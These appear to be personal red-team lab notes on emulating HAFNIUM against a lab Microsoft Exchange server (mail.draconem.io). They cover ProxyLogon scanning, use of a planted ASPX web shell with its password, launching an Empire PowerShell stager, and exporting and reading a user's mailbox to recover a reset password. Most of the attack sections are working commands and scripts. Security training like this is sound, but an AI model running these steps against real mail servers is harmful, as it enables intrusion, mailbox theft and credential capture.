 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users
- *Goal:* Pick up target intelligence from user email
- The `Microsoft.Exchange.Management.Powershell.SnapIn` that will allow us use additional PowerShell functions and cmdlets that interact with Microsoft Exchange
```markdown
# Enumerate the users with mailboxes
powershell -c "Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn; Get-Recipient | Format-Table -Auto Alias"
```
![[Pasted image 20240324033515.png]]
### Export User Emails
*Goal:* The PS script will leverage Exchange SnapIn, sets an output file and then exports the user's email to a PST file. 
- Create the file on Slingshot Linux at `/labs/sec-3/initial-access/export-email.ps1`
- Note: These commands need to run as a script because there are some inconsistencies with stating UNC paths
```powershell
function Export-Email {
    param (
        $User
    )
    Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn;
    $OutFile = "\\127.0.0.1\c$\ProgramData\" + $User + ".pst";
    New-MailboxExportRequest -Mailbox $User -FilePath $OutFile;
};
```
We will invoke this script with an Empire module called *invoke_script*. 
- Interact with your agent, select `powershell/management/invoke_script` from the Execute Module drop down list.
- Then enter the following values:

	    ScriptCmd: Export-Email Mark.Goodwin
	    ScriptPath: /labs/sec-3/initial-access/export-email.ps1

![[Pasted image 20240324033656.png]]

- There are many ways to complete a task but these commands mimic the same techniques used by HAFNIUM, the adversary we are emulating.

![[Pasted image 20240324035153.png]]
### Read User Emails
1. Download the exported mailbox by clicking the down arrow icon in the upper right of the agent screen. 
2. The file should be located at `c:\ProgramData\Mark.Goodwin.pst` 
3. After downloading the file delete it off the mail server by issuing this shell command `del c:\ProgramData\Mark.Goodwin.pst`
```markdown
#### Example the PST using readpst
## Find the PST file in our Agent download directory & Copy it
cd /labs/sec-3/initial-access/

find /opt/Empire/empire/server/downloads/ | grep pst

cp /opt/Empire/empire/server/downloads/agent Name/C:/ProgramData/Mark.Goodwin.pst .

readpst -S -o . Mark.Goodwin.pst
```
![[Pasted image 20240324035812.png]]
```markdown
#### readpst has extracted all the emails from the pst file to plain text
## We can now read through them for target intelligence
ll Mark.Goodwin/Inbox/

strings Mark.Goodwin/Inbox/1
```
![[Pasted image 20240324040015.png]]
We just found that Mark Goodwin's password has been reset to `C@v3t3Dr@c0n3m!!`
#### Bonus
- Continue to read through the mailboxes of other users to find additional target intelligence.
## Conclusion
- In this lab we used a web shell that was placed on the Microsoft Exchange server to deploy an agent.
- Once we had positive control of our agent in target space we established our initial access. We were fortunate that our agent is running as SYSTEM and has unfettered access to the system. 
- We then enumerated users and exported a mailbox to read through emails. In those emails we found that the user `Mark.Goodwin` had their password reset to `C@v3t3Dr@c0n3m!!`. 
- We will use this information for later labs. Leave your agent running for the next lab.